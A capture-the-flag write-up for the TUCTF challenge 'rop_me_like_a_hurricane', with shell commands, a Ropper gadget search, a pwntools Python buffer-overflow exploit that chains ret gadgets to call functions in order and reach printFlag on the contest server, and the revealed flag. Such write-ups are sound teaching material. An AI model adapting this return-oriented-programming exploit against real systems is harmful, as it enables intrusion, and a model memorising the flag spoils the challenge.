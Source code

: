 #### Challenge:

Didn't get an alien in Area51, but I found this... [rop_me_like_a_hurricane](./rop_me_like_a_hurricane ":ignore")

---

#### Solution:

- https://ctf101.org/binary-exploitation/return-oriented-programming/
- https://github.com/sashs/Ropper

```bash
for f in "./broken/lost+found/#65281/"*; do
    strings ./$f | grep -i flag.txt && echo $f;
done
strings ./rop_me_like_a_hurricane | grep -i tuctf # nc chal.tuctf.com 31058

# find propper gadget address
ropper --file ./rop_me_like_a_hurricane # 0x0804900e: ret;
```

```python
#!/usr/bin/env python2
from pwn import *

RET = 0x0804900e
BIN = "./rop_me_like_a_hurricane"


def exploit():
    e = ELF(BIN)
    payload = "A" * 28  # offset

    # execute functions in correct order
    payload += p32(RET)
    payload += p32(e.symbols['B'])

    payload += p32(RET)
    payload += p32(e.symbols['C'])

    payload += p32(RET)
    payload += p32(e.symbols['A'])

    # all conditions should be satisfied via prev function
    payload += p32(RET)
    payload += p32(e.symbols['printFlag'])
    payload += p32(0x804930a)

    return payload


if __name__ == "__main__":
    s = remote('chal.tuctf.com', 31058)
    s.sendlineafter("> ", exploit())
    s.interactive()

```

---

<details><summary>FLAG:</summary>

```
TUCTF{bu7_c4n_y0u_ROP_bl1ndf0ld3d?}
```

</details>
<br/>
